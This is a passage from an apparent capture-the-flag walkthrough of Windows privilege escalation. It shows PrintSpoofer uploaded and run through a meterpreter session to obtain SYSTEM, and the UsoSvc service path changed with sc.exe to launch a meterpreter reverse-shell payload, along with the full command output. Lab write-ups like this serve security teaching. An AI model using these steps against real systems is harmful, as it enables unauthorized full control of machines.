 To run the exploit for PrintSpoofer, download the executable from the release on GitHub \(https://github.com/itm4n/PrintSpoofer\). We can use our meterpreter session to upload it and then simply run it in a shell to get access to nt authority\system

```bash
meterpreter > upload /home/rin/Downloads/PrintSpoofer64.exe \
    "c:\users\public\downloads\spoof.exe"
[*] uploading : /home/oztechmuse/Downloads/PrintSpoofer64.exe -> 
    c:\users\public\downloads\spoof.exe
[*] Uploaded 26.50 KiB of 26.50 KiB (100.0%): 
    /home/rin/Downloads/PrintSpoofer64.exe -> c:\users\public\downloads\spoof.exe
[*] uploaded : /home/rin/Downloads/PrintSpoofer64.exe -> 
    c:\users\public\downloads\spoof.exe
meterpreter > shell
Process 8844 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\users\public\downloads>.\spoof -i -c cmd
.\spoof -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```

Finally, the third way of exploiting this box is to change the UsoSvc path. We can use the application sc.exe to query the status of the service, stop it, change the path it is using for the service binary and then start it again. We can use the same meterpreter reverse shell we used previously.

In Metasploit, we can go back to exploit/multi/handler and run it again. We don't need to change anything and we can run using the command with the -j flag so that it runs in the background.

On the Remote machine, we then use sc.exe as outlined above:

```bash
PS C:\users\public\Downloads> sc.exe query usosvc
SERVICE_NAME: usosvc
 TYPE : 30 WIN32
 STATE : 4 RUNNING
 (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
 WIN32_EXIT_CODE : 0 (0x0)
 SERVICE_EXIT_CODE : 0 (0x0)
 CHECKPOINT : 0x0
 WAIT_HINT : 0x0
PS C:\users\public\Downloads> sc.exe stop usosvc
SERVICE_NAME: usosvc
 TYPE : 30 WIN32
 STATE : 3 STOP_PENDING
 (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
 WIN32_EXIT_CODE : 0 (0x0)
 SERVICE_EXIT_CODE : 0 (0x0)
 CHECKPOINT : 0x3
 WAIT_HINT : 0x7530
PS C:\users\public\Downloads> sc.exe CONFIG usosvc ` 
 binPath="cmd.exe /c c:\users\public\downloads\metsh.exe"
PS C:\users\public\Downloads> sc.exe start usosvc
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion
In Metasploit, we will get a session as NT AUTHORITY\SYSTEM
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 2.
```